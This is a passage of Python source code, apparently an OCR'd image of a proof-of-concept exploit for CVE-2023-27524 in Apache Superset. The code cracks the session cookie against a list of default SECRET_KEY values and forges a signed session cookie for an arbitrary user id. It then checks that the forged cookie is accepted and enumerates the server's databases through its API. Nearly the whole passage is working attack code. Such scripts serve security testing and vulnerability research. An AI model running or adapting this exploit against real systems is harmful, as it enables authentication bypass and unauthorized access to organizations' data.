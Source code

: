 ```python
            version = match.group(1)
        else:
            version = 'Unknown'

        print(f'Superset Version: {version}')


        for i, k in enumerate(SECRET_KEYS):
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print('Failed to crack session cookie')
            return

        print(f'Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}')

        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({'_user_id': user_id, 'user_id': user_id}, k)
        print(f'Forged session cookie for user {user_id}: {forged_cookie}')

        if args.validate:
            try:
                headers['Cookie'] = f'session={forged_cookie}'
                print(f'Sleeping {args.timeout} seconds before using forged cookie to account for time drift...')
                sleep(args.timeout)
                resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
                if resp.status_code == 302:
                    print(f'Got 302 on login, forged cookie appears to have been accepted')
                    validated = True
                else:
                    print(f'Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')
            except Exception as e_inner:
                print(f'Got error {e_inner} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')

            if not validated:
                return

            print('Enumerating databases')
            for i in range(1, 101):
                database_url_base = args.url.rstrip('/') + '/api/v1/database'
                try:
                    r = requests.get(f'{database_url_base}/{i}', headers=headers, verify=False, timeout=30, allow_redirects=False)
                    if r.status_code == 200:
                        result = r.json()['result'] # validate response is JSON
                        name = result['database_name']
                        print(f'Found database {name}')
                    elif r.status_code == 404:
                        print(f'Done enumerating databases')
                        break # no more databases
                    else:
                        print(f'Unexpected error: status code={r.status_code}')
                        break
```